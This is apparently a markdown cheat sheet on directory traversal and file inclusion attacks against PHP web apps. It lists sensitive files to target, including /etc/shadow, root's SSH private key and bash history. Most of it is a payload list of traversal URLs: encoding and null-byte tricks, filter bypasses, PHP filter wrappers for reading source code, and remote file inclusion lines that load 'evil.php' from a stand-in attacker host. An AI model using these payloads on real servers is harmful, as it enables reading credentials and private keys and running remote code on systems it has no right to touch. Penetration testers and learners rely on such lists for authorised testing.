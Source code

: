 # Directory Traversal
 Directory traversal is a web vulnerability that allows an attacker to read arbitrary files on the server.
 ![](lfi1.png)

 
			Important files to check
- `/proc/version` 	      specifies the version of the Linux kernel
- `/etc/passwd` 		      has all registered user that has access to a system
- `/etc/shadow`		      contains information about the system's users' passwords
- `/var/mail/root`	 	all emails for root user
- `var/log/dmessage`	  contains global system messages
- `/root/.ssh/id_rsa`	      Private SSH keys for a root or any known user
- `/root/.bash_history`	    contains the history commands for root user

<!-- -->

			Directory Traversal Cheatsheat
Basics:
`http://vulnerable-site.com/index.php?page=../../../etc/passwd`
`http://vulnerable-site.com/index.php?page=....//....//....//etc/passwd`
`http://vulnerable-site.com/index.php?page=....\/....\/....\/etc/passwd`
`http://vulnerable-site.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd`

Null Byte Injection:
`http://vulnerable-site.com/index.php?page=../../../etc/passwd%00`
--------------------------------------------------------------------
Encoding:
`http://vulnerable-site.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd`
`http://vulnerable-site.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd`
`http://vulnerable-site.com/index.php?page=%252e%252e%252fetc%252fpasswd`
`http://vulnerable-site.com/index.php?page=%252e%252e%252fetc%252fpasswd%00`
--------------------------------------------------------------------
From an Existent Folder:
`http://vulnerable-site.com/index.php?page=utils/scripts/../../../../../etc/passwd`
--------------------------------------------------------------------
Path Truncation:
`http://vulnerable-site.com/index.php?page=a/../../[ADDMORE]../../etc/passwd`
--------------------------------------------------------------------
Filter Bypass: 
`http://vulnerable-site.com/index.php?page=....//....//etc/passwd`
`http://vulnerable-site.com/index.php?page=..///////..////..//////etc/passwd`
`http://vulnerable-site.com/index.php?page=/%5C../%5C../%5C../%5C../etc/passwd` `http://vulnerable-site.com/index.php?page=/var/www/../../etc/passwd`
--------------------------------------------------------------------
RFI:
`http://vulnerable-site.com/index.php?page=http://atacker.com/evil.php`
`http://vulnerable-site.com/index.php?page=\\attacker.com\evil.php`
--------------------------------------------------------------------
PHP Wrappers: filter
`http://vulnerable-site.com/index.php?page=php://filter/read=string.rot13/resource=index.php`
`http://vulnerable-site.com/index.php?page=php://filter/convert.base64-encode/resource=index.php`
`http://vulnerable-site.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php`
--------------------------------------------------------------------
PHP wrapper: zlib
`http://vulnerable-site.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd`
--------------------------------------------------------------------